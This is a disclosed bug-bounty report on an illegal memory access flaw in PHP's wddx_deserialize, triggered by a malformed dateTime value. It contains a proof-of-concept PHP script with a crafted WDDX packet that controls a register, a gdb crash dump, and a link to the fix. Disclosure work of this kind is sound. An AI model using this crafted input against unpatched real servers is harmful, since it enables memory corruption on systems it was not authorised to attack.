 # wddx_deserialize allows illegal memory access

## Report Details
- **Report ID**: 161200
- **URL**: https://hackerone.com/reports/161200
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-19T03:13:05.231Z
- **Disclosed**: 2019-10-31T06:21:13.827Z

## Reporter
- **Username**: fms
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information

Upstream Bug
---
2016-08-03 18:36 UTC
https://bugs.php.net/bug.php?id=72749

Summary
--
wddx_deserialize allows to unserialize a WDDX packet that usually comes from external input, while deserializing an invalid dateTime value, wddx_deserialize will parse it in a wrong way and then assign the supplied value as the address of the created variable. This allows illegal memory access. We noted that the problem seems to happen because of the included \r inside the value of the dateTime.

We are able to fully control the register used for reading by specifying it as a date:

```
<?php

// timestamp(2004-09-10T05:52:49+00) = 0x41414131

$xml = <<<XML
<?xml version='1.0'?>
<!DOCTYPE wddxPacket SYSTEM 'wddx_0100.dtd'>
<wddxPacket version='1.0'>
<header/>
        <data>
                <struct>
                     <var name='aDateTime3'>
                         <dateTime>2\r2004-09-10T05:52:49+00</dateTime>
                     </var>
                 </struct>
        </data>
</wddxPacket>
XML;

$array = wddx_deserialize($xml);
var_dump($array);

$ gdb -q --args /ramdisk/php-fuzz/phuzzer/php-70//sapi/cli/php -n wdx17.php
No symbol table is loaded.  Use the "file" command.
Breakpoint 1 (__asan_report_error) pending.
Reading symbols from /ramdisk/php-fuzz/phuzzer/php-70//sapi/cli/php...done.
gdb-peda$ r
Starting program: /ramdisk/php-fuzz/phuzzer/php-70/sapi/cli/php -n wdx17.php
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
array(1) {
  ["aDateTime3"]=>

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x7fffef65ea20 --> 0x41414131 ('1AAA')
RCX: 0x1501b90 (<php_var_dump+1312>:    mov    r13,rbx)
RDX: 0x8282828
RSI: 0x41414131 ('1AAA')
RDI: 0x41414141 ('AAAA')
RBP: 0x7fffffffa280 --> 0x7fffffffa400 --> 0x7fffffffa4e0 --> 0x7fffffffa530 --> 0x7fffffffa550 --> 0x7fffffffa5c0 (--> ...)
RSP: 0x7fffffffa110 --> 0x16ae960 (<php_printf>:        lea    rsp,[rsp-0x98])
RIP: 0x1501bf8 (<php_var_dump+1416>:    mov    rdx,QWORD PTR [rsi+0x10])
R8 : 0xffffdecbd45 --> 0x0
R9 : 0x2451400 --> 0xff0b0578ff0b0ad8
R10: 0x1
R11: 0x0
R12: 0x0
R13: 0xffffdecbd44 --> 0x0
R14: 0x7fffffffa170 --> 0x41b58ab3
R15: 0xffffffff42e --> 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x1501be7 <php_var_dump+1399>:       mov    rcx,QWORD PTR [rsp+0x8]
   0x1501bec <php_var_dump+1404>:       mov    rdx,QWORD PTR [rsp]
   0x1501bf0 <php_var_dump+1408>:       lea    rsp,[rsp+0x98]
=> 0x1501bf8 <php_var_dump+1416>:       mov    rdx,QWORD PTR [rsi+0x10]
   0x1501bfc <php_var_dump+1420>:       lea    r11,[rip+0xf4f1fd]        # 0x2450e00
   0x1501c03 <php_var_dump+1427>:       lea    rsi,[rip+0xf4f1b6]        # 0x2450dc0
   0x1501c0a <php_var_dump+1434>:       test   r12d,r12d
   0x1501c0d <php_var_dump+1437>:       lea    rdi,[rip+0xf4f3ec]        # 0x2451000
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffa110 --> 0x16ae960 (<php_printf>:       lea    rsp,[rsp-0x98])
0008| 0x7fffffffa118 --> 0x28286b8 --> 0x7ffff5689910 (<xmlFreeParserCtxt>:     test   rdi,rdi)
0016| 0x7fffffffa120 --> 0x7fffef676000 --> 0x7fffef676070 --> 0x7fffef6760e0 --> 0x7fffef676150 --> 0x7fffef6761c0 (--> ...)
0024| 0x7fffffffa128 --> 0x7fffef66c158 --> 0x61700000f900 --> 0x611027800013 --> 0x0
0032| 0x7fffffffa130 --> 0x7fffef66c140 --> 0x7fffef66c1e0 --> 0x7fffef66c280 --> 0x7fffef66c320 --> 0x7fffef66c3c0 (--> ...)
0040| 0x7fffffffa138 --> 0x7fffef6140c0 --> 0x7fffef658420 --> 0xc002000700000002
0048| 0x7fffffffa140 --> 0x7fffffffa340 --> 0x0
0056| 0x7fffffffa148 --> 0x7ffff7de68f6 (<_dl_fixup+214>:       mov    r8,rax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000001501bf8 in php_var_dump (struc=struc@entry=0x7fffef65ea20, level=level@entry=0x3) at /home/operac/php-70/ext/standard/var.c:111
111                             php_printf("%sstring(%zd) \"", COMMON, Z_STRLEN_P(struc));
gdb-peda$ p *struc
$1 = {
  value = {
    lval = 0x41414131,
    dval = 5.4090087986211999e-315,
    counted = 0x41414131,
    str = 0x41414131,
    arr = 0x41414131,
    obj = 0x41414131,
    res = 0x41414131,
    ref = 0x41414131,
    ast = 0x41414131,
    zv = 0x41414131,
    ptr = 0x41414131,
    ce = 0x41414131,
    func = 0x41414131,
    ww = {
      w1 = 0x41414131,
      w2 = 0x0
    }
  },
  u1 = {
    v = {
      type = 0x6,
      type_flags = 0x14,
      const_flags = 0x0,
      reserved = 0x0
    },
    type_info = 0x1406
  },
  u2 = {
    var_flags = 0xffffffff,
    next = 0xffffffff,
    cache_slot = 0xffffffff,
    lineno = 0xffffffff,
    num_args = 0xffffffff,
    fe_pos = 0xffffffff,
    fe_iter_idx = 0xffffffff
  }
}
```
Patch
--
```
http://git.php.net/?p=php-src.git;a=commit;h=426aeb2808955ee3d3f52e0cfb102834cdb836a5
```

Fixed for PHP 5.6.25,
--
http://php.net/ChangeLog-5.php


## Attachments
No attachments
